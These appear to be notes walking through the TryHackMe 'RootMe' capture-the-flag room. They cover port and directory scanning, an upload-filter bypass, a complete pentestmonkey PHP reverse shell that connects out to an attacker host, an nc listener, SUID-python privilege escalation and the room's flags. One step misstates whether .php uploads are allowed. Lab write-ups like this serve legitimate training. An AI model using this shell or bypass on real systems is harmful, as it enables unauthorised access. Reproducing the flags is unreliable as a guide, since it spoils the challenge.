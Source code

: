 # RootMe Notes

Great writeup: https://beginninghacking.net/2020/09/09/try-hack-me-rootme/

1. Scan ports with nmap: "sudo nmap -sS -A <target ip address>"
- 2 ports open: 80 and 22, apache 2.4.29 and ssh respectively

2. Find hidden directories (GoBuster recommended, but I used dirb) (make sure to use http, as the webpage uses http): "dirb http://<target ip address>"
> -----------------
>DIRB v2.22    
>By The Dark Raver
>-----------------
>
>START_TIME: Sat Nov 20 04:24:35 2021
>URL_BASE: http://10.10.154.79/
>WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
>
>-----------------
>
>GENERATED WORDS: 4612                                                          
>
>---- Scanning URL: http://10.10.154.79/ ----
>==> DIRECTORY: http://10.10.154.79/css/                                                                                                                                                 
>+ http://10.10.154.79/index.php (CODE:200|SIZE:616)                                                                                                                                     
>==> DIRECTORY: http://10.10.154.79/js/                                                                                                                                                  
>==> DIRECTORY: http://10.10.154.79/panel/                                                                                                                                               
>+ http://10.10.154.79/server-status (CODE:403|SIZE:277)                                                                                                                                 
>==> DIRECTORY: http://10.10.154.79/uploads/                                                                                                                                             
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.154.79/css/ ----
>(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
>    (Use mode '-w' if you want to scan it anyway)
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.154.79/js/ ----
>(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
>    (Use mode '-w' if you want to scan it anyway)
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.154.79/panel/ ----
>+ http://10.10.154.79/panel/index.php (CODE:200|SIZE:732)                                                                                                                               
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.154.79/uploads/ ----
>(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
>    (Use mode '-w' if you want to scan it anyway)
>                                                                               
>-----------------
>END_TIME: Sat Nov 20 04:24:47 2021
>DOWNLOADED: 9224 - FOUND: 3
- Hidden directory is '/panel/'

3. We can upload a payload and get a reverse shell. Save this payload to a file, change the port and ip to your machine's ip address and a port that's not being used.

><?php
>// php-reverse-shell - A Reverse Shell implementation in PHP
>// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
>//
>// This tool may be used for legal purposes only.  Users take full responsibility
>// for any actions performed using this tool.  The author accepts no liability
>// for damage caused by this tool.  If these terms are not acceptable to you, then
>// do not use this tool.
>//
>// In all other respects the GPL version 2 applies:
>//
>// This program is free software; you can redistribute it and/or modify
>// it under the terms of the GNU General Public License version 2 as
>// published by the Free Software Foundation.
>//
>// This program is distributed in the hope that it will be useful,
>// but WITHOUT ANY WARRANTY; without even the implied warranty of
>// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
>// GNU General Public License for more details.
>//
>// You should have received a copy of the GNU General Public License along
>// with this program; if not, write to the Free Software Foundation, Inc.,
>// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
>//
>// This tool may be used for legal purposes only.  Users take full responsibility
>// for any actions performed using this tool.  If these terms are not acceptable to
>// you, then do not use this tool.
>//
>// You are encouraged to send comments, improvements or suggestions to
>// me at pentestmonkey@pentestmonkey.net
>//
>// Description
>// -----------
>// This script will make an outbound TCP connection to a hardcoded IP and port.
>// The recipient will be given a shell running as the current user (apache normally).
>//
>// Limitations
>// -----------
>// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
>// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
>// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
>//
>// Usage
>// -----
>// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
>
>set_time_limit (0);
>$VERSION = "1.0";
>$ip = '127.0.0.1';  // CHANGE THIS
>$port = 1234;       // CHANGE THIS
>$chunk_size = 1400;
>$write_a = null;
>$error_a = null;
>$shell = 'uname -a; w; id; /bin/sh -i';
>$daemon = 0;
>$debug = 0;
>
>//
>// Daemonise ourself if possible to avoid zombies later
>//
>
>// pcntl_fork is hardly ever available, but will allow us to daemonise
>// our php process and avoid zombies.  Worth a try...
>if (function_exists('pcntl_fork')) {
>	// Fork and have the parent process exit
>	$pid = pcntl_fork();
>	
>	if ($pid == -1) {
>		printit("ERROR: Can't fork");
>		exit(1);
>	}
>	
>	if ($pid) {
>		exit(0);  // Parent exits
>	}
>
>	// Make the current process a session leader
>	// Will only succeed if we forked
>	if (posix_setsid() == -1) {
>		printit("Error: Can't setsid()");
>		exit(1);
>	}
>
>	$daemon = 1;
>} else {
>	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
>}
>
>// Change to a safe directory
>chdir("/");
>
>// Remove any umask we inherited
>umask(0);
>
>//
>// Do the reverse shell...
>//
>
>// Open reverse connection
>$sock = fsockopen($ip, $port, $errno, $errstr, 30);
>if (!$sock) {
>	printit("$errstr ($errno)");
>	exit(1);
>}
>
>// Spawn shell process
>$descriptorspec = array(
>   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
>   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
>   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
>);
>
>$process = proc_open($shell, $descriptorspec, $pipes);
>
>if (!is_resource($process)) {
>	printit("ERROR: Can't spawn shell");
>	exit(1);
>}
>
>// Set everything to non-blocking
>// Reason: Occsionally reads will block, even though stream_select tells us they won't
>stream_set_blocking($pipes[0], 0);
>stream_set_blocking($pipes[1], 0);
>stream_set_blocking($pipes[2], 0);
>stream_set_blocking($sock, 0);
>
>printit("Successfully opened reverse shell to $ip:$port");
>
>while (1) {
>	// Check for end of TCP connection
>	if (feof($sock)) {
>		printit("ERROR: Shell connection terminated");
>		break;
>	}
>
>	// Check for end of STDOUT
>	if (feof($pipes[1])) {
>		printit("ERROR: Shell process terminated");
>		break;
>	}
>
>	// Wait until a command is end down $sock, or some
>	// command output is available on STDOUT or STDERR
>	$read_a = array($sock, $pipes[1], $pipes[2]);
>	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
>
>	// If we can read from the TCP socket, send
>	// data to process's STDIN
>	if (in_array($sock, $read_a)) {
>		if ($debug) printit("SOCK READ");
>		$input = fread($sock, $chunk_size);
>		if ($debug) printit("SOCK: $input");
>		fwrite($pipes[0], $input);
>	}
>
>	// If we can read from the process's STDOUT
>	// send data down tcp connection
>	if (in_array($pipes[1], $read_a)) {
>		if ($debug) printit("STDOUT READ");
>		$input = fread($pipes[1], $chunk_size);
>		if ($debug) printit("STDOUT: $input");
>		fwrite($sock, $input);
>	}
>
>	// If we can read from the process's STDERR
>	// send data down tcp connection
>	if (in_array($pipes[2], $read_a)) {
>		if ($debug) printit("STDERR READ");
>		$input = fread($pipes[2], $chunk_size);
>		if ($debug) printit("STDERR: $input");
>		fwrite($sock, $input);
>	}
>}
>
>fclose($sock);
>fclose($pipes[0]);
>fclose($pipes[1]);
>fclose($pipes[2]);
>proc_close($process);
>
>// Like print, but does nothing if we've daemonised ourself
>// (I can't figure out how to redirect STDOUT like a proper daemon)
>function printit ($string) {
>	if (!$daemon) {
>		print "$string\n";
>	}
>}
>
>?> 
>
>

4. If we save this as a .php file and try to upload it, we find that we're allowed to upload .php files. There are several ways of bypassing this, but the easiest way is to just change the file extension so that it'll get accepted into the server and so that it'll run when we try to run it. For example, payload.jpg won't work because the .jpg won't run. So we bypass it by simple changing the extension to .php5, which is another version of php that is not blocked by the server. After uploading, go to "<target ip address>/uploads" - which we found earlier with dirb - and make sure that the file has been uploaded

5. Now we set up nc to listen to the port we programmed the script to connect to: "nc -nlvp <port>"

6. Finally, we run the script on the web server with curl: "curl <target ip address>/uploads/<script name>", and we should now have access to the server through netcat

7. We're given the name of the file that contains the flag "user.txt", so we simple use the find command: "find / -type f -name user.txt" and we see that the file is at /var/www/user.txt and when we cat it we find that the flag is THM{y0u_g0t_a_sh3ll}

8. Now we need to escalate our privileges to root. We're asked to search for files with the suid permission set - which lets any user execute the file with the permissions of the owner of the file - and find any files that are supicious. To do this we use find again: "find / -perm /4000 2> /dev/null" (we use "2> /dev/null" to get rid of any errors, such as permission errors for files we're not able to access)
>/usr/lib/dbus-1.0/dbus-daemon-launch-helper
>/usr/lib/snapd/snap-confine
>/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
>/usr/lib/eject/dmcrypt-get-device
>/usr/lib/openssh/ssh-keysign
>/usr/lib/policykit-1/polkit-agent-helper-1
>/usr/bin/traceroute6.iputils
>/usr/bin/newuidmap
>/usr/bin/newgidmap
>/usr/bin/chsh
>/usr/bin/python
>/usr/bin/at
>/usr/bin/chfn
>/usr/bin/gpasswd
>/usr/bin/sudo
>/usr/bin/newgrp
>/usr/bin/passwd
>/usr/bin/pkexec
>/snap/core/8268/bin/mount
>/snap/core/8268/bin/ping
>/snap/core/8268/bin/ping6
>/snap/core/8268/bin/su
>/snap/core/8268/bin/umount
>/snap/core/8268/usr/bin/chfn
>/snap/core/8268/usr/bin/chsh
>/snap/core/8268/usr/bin/gpasswd
>/snap/core/8268/usr/bin/newgrp
>/snap/core/8268/usr/bin/passwd
>/snap/core/8268/usr/bin/sudo
>/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
>/snap/core/8268/usr/lib/openssh/ssh-keysign
>/snap/core/8268/usr/lib/snapd/snap-confine
>/snap/core/8268/usr/sbin/pppd
>/snap/core/9665/bin/mount
>/snap/core/9665/bin/ping
>/snap/core/9665/bin/ping6
>/snap/core/9665/bin/su
>/snap/core/9665/bin/umount
>/snap/core/9665/usr/bin/chfn
>/snap/core/9665/usr/bin/chsh
>/snap/core/9665/usr/bin/gpasswd
>/snap/core/9665/usr/bin/newgrp
>/snap/core/9665/usr/bin/passwd
>/snap/core/9665/usr/bin/sudo
>/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
>/snap/core/9665/usr/lib/openssh/ssh-keysign
>/snap/core/9665/usr/lib/snapd/snap-confine
>/snap/core/9665/usr/sbin/pppd
>/bin/mount
>/bin/su
>/bin/fusermount
>/bin/ping
>/bin/umount

9. Looking through the results, we see nothing suspicious until we see python. Python's an interpreter for the python programming language, and setting SUID on it makes no sense because there's no reason to run it as root; it'll produce the same output no matter who runs it. We check if that's the binary that the challenge is looking for, and it is. "/usr/bin/python"

10. Now we need to write some python code and run it with /usr/bin/python to let us view the contents of the /root directory (it's given that the last flag is called root.txt, so we'll assume that it's located in /root)

11. I tried writing the code inside the shell we got from the reverse shell, but python and vim were acting weird, so I instead wrote the code inside the attacker machine, uploaded it to the server just like we did with the reverse php file, and used "find / -type d -name ```*uploads*``` 2> /dev/null" to find where the files we uploaded were located. I needed to find the location because I couldn't just execute the python file with curl like we did with the php payload. I found that the files were in /var/www/html/uploads

12. After this, I wrote a basic python script to print out the contents or /root
>#!/usr/bin/python
>import os
>
>print(os.listdir('/root'))

13. I then uploaded that to the server and used "/usr/bin/python /var/www/html/uploads/<filename>", and I see that root.txt is indeed in /root

14. Finally, to print out the contents of root.txt, I wrote this script
>#!/usr/bin/python
>import os
>
>file = open('/root/root.txt', 'r')
>print(file.read())

The last flag is THM{pr1v1l3g3_3sc4l4t10n}
